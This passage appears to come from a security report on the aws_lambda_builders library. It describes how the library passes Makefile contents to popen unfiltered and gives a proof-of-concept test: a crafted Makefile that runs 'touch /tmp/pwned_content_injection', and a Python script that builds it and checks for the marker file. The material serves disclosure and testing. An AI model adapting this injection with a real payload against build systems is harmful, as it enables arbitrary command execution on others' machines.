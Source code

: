         - **Unsafe Execution:** The `popen` method directly executes the constructed command `invoke_make` without any sandboxing, command filtering, or input validation on the command arguments. This allows any commands injected through the Makefile or `build_logical_id` to be executed by the system shell.

- Security Test Case:
    **Test Case 1: Malicious Makefile Content Injection**
    1. Create a file named `malicious_makefile` with the following content:
        ```makefile
        build-test_function:
            touch /tmp/pwned_content_injection
        ```
    2. Create a temporary directory, e.g., `/tmp/test_vulnerability_content`.
    3. Save the `malicious_makefile` inside `/tmp/test_vulnerability_content`.
    4. Execute the following Python code:
        ```python
        import tempfile
        from aws_lambda_builders.builder import LambdaBuilder
        import os
        import shutil

        source_dir = "/tmp/test_vulnerability_content"
        artifacts_dir = tempfile.mkdtemp()
        scratch_dir = tempfile.mkdtemp()
        manifest_path = os.path.join(source_dir, "malicious_makefile")

        builder = LambdaBuilder(language="provided", dependency_manager=None, application_framework=None)

        try:
            builder.build(
                source_dir,
                artifacts_dir,
                scratch_dir,
                manifest_path,
                runtime="provided",
                options={"build_logical_id": "test_function"},
            )
        except Exception as e:
            print(f"Build failed as expected or encountered an error: {e}")
        finally:
            if os.path.exists("/tmp/pwned_content_injection"):
                print("Vulnerability confirmed (Content Injection): /tmp/pwned_content_injection file created.")
                os.remove("/tmp/pwned_content_injection")
            else:
                print("Vulnerability check failed (Content Injection): /tmp/pwned_content_injection file not found.")

            shutil.rmtree(artifacts_dir)
            shutil.rmtree(scratch_dir)
            shutil.rmtree(source_dir)
        ```
    5. Run the Python script.
    6. Check the output. If "Vulnerability confirmed (Content Injection): /tmp/pwned_content_injection file created." is printed, the command injection vulnerability via malicious Makefile content is validated.

